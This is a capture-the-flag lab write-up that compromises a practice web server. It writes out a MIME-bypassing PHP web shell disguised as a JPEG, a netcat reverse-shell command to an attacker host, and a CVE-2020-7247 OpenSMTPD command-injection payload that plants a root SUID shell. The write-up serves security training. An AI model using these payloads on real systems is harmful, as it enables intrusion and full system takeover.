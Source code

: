 **Writeup by echothrust, submitted 2021-01-11 17:01:42** (`status:OK`)

This is a small fun puzzle target, that aims to demonstrate some of the common mistakes and problems that occur on web applications during development and how certain functions are not safe to be trusted in proving types of files.

Many times things are getting "hidden" on the frontend, but remain active and accessible on the backend code base.

As always we start with our port scan

```sh
$ nmap -sS 10.0.30.187
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-05 23:44 UTC
Nmap scan report for 10.0.30.187 (10.0.30.187)
Host is up (0.0041s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

The checking the headers and visiting the web page shows nothing interesting.

```sh
$ curl -I 10.0.30.187
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Tue, 05 Jan 2021 23:48:10 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.3.23
```

Trying to check the source code with curl produced some strange output. Give it a try `curl 10.0.30.187` and see for yourself. If you tried it then you have a messed up terminal :P

No worries you can fix it by running `reset` and your terminal will get back to normal.

You can check the source code with a browser or by piping the output through the `vis` utility like so `curl 10.0.30.187|vis`, or by redirecting to a file and opening it with your favourite editor etc...

The source code seems to be minified, however close to the end we can see the following code commented out

```html
<!--
<form action="upload.php" method="post" enctype="multipart/form-data">
 Select image to upload:<br/>
 <input type="file" name="image" id="image">
 <input type="submit" value="Upload Image" name="submit">
</form>
-->
```

We have another endpoint that seems to accept file uploads. Testing to upload an image produces the following

```sh
$ curl -F 'image=@/dev/null' 10.0.30.187/upload.php
Array
(
    [0] => Mimetype not allowed, please upload an image/jpeg file.
)
```

Creating an empty file with `jpg` extension didnt seem to work either.

```sh
$ touch test.jpg
$ curl -F 'image=@test.jpg' 10.0.30.187/upload.php
Array
(
    [0] => Mimetype not allowed, please upload an image/jpeg file.
)
```

So since both times the error seems to mention MIME types, lets try to set one. The MIME type for the jpeg images is `image/jpeg` so we adapt our curl command accordingly and try again (without success)

```sh
$ curl -F 'image=@test.jpg;type=image/jpeg' 10.0.30.187/upload.php
Array
(
    [0] => Mimetype not allowed, please upload an image/jpeg file.
)
```

The next logical step is to upload an actual jpeg image and see what this form will do with that, but we hit another wall

```sh
$ curl -F 'image=@random.jpg;type=image/jpeg' 10.0.30.187/upload.php
Array
(
    [0] => The maximum file size supported is 39 bytes
)
```

So whatever we do, we will have to upload a file that is identified as a jpeg image, caries our payload and is 39 bytes...

Reading a bit about mime types reveals that in order for a file to be recognized as a jpeg image it needs just 2 bytes `\xff\xd8`. This means that whatever the actual file may be, if it starts with those two bytes it will be identified as a jpeg image.

The nice part about this, is that mime types dont check file extensions. So if all we have to do is identify as an jpeg image, we can upload any file we like, say **PHP**?

However we must not forget that we are still under a very tight limitation of 39 bytes. So we start with a simple payload

```sh
$ printf '\xff\xd8<?=`{$_GET["cmd"]}`;' > sploit.php
$ wc -c sploit.php
      22 sploit.php
$ file sploit.php
sploit.php: JPEG image data
```

We upload the file and try it out.

```sh
$ curl -F 'image=@sploit.php' http://10.0.30.187/upload.php
Success. file uploaded at images/sploit.php
$ curl "http://10.0.30.187/images/sploit.php?cmd=id"
��uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now we have access to execute commands of our liking, lets start a reverse shell to be a bit more flexible. However be aware that the system cleans the uploaded files every few minutes, so dont be surprised if you get `404 Not Found`. Re-upload your file and go at it again.

Notice that we use `nohup` to launch our command. This is so that when our connection through the web Time-out we dont get disconnected from our shell.

```sh
$ curl "http://10.0.30.187/images/sploit.php?cmd=nohup nc -e /bin/bash 10.10.0.6 4444&amp;"
```

Now that we have our reverse shell connected we can check the system for a few more details. First lets grab the files that may be of interest out of the way

```sh
$ nc -vl 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.30.187 40328
cat ../upload.php;
cat ../index.php;
```

Checking at the local listening ports and running processes we get the next possible lead.

```sh
ss -antl
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port                                                                                    
LISTEN    0         128                0.0.0.0:80               0.0.0.0:*
LISTEN    0         128             127.0.0.11:35701            0.0.0.0:*
LISTEN    0         5                127.0.0.1:25               0.0.0.0:*
LISTEN    0         128              127.0.0.1:9001             0.0.0.0:*
```

So we have 3 more services that are only accessible from the local host only.

The port `9001` is often used by the PHP Fastcgi Process Manager (PHP-FPM). Checking the configuration file `/usr/local/etc/php-fpm.d/www.conf` we see that fpm is running as `www-data` and the file is not writeable by our current user, so there is no point in looking into it further.

Checking port `35701` doesn't produce any meaningful output, but port 25 seems to be running OpenSMTPD.

```sh
echo QUIT|nc localhost 25
220 cupidme.echocity-f.com ESMTP OpenSMTPD
221 2.0.0 Bye
```

Checking online we find `CVE-2020-7247` and after a bit of studying of the available exploits for it i created the following payload to try out. The payload makes a SUID/SGID copy of `/bin/bash` at `/tmp/joy`.

```sh
HELO cupidme
MAIL FROM:<;install -m 6755 /bin/bash /tmp/joy;>
RCPT TO:<root>
DATA
.
QUIT
```

Note that you will have to copy paste one line at a time otherwise you may get pipelining errors from the SMTP server.

If everything went well with the payload we should have our suid/sgid shell and all we have to do is run it. Notice that we pass the option `-p` to the bash copy, which allows us to turn on privileged mode, which allows us to retain the effective uid/gid

```sh
ls -la /tmp/joy;
-rwsr-sr-x 1 root root 1168776 Jan  6 01:23 /tmp/joy
/tmp/joy -p;
id;
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

And we're effectively root. Grab the remaining flags and get your headshot!!!

NOTE: We have a whole new target dedicated just to this vulnerability, so jump over to the [CVE-2020-7247 target](https://echoctf.red/target/29) to play with it once you're done here :)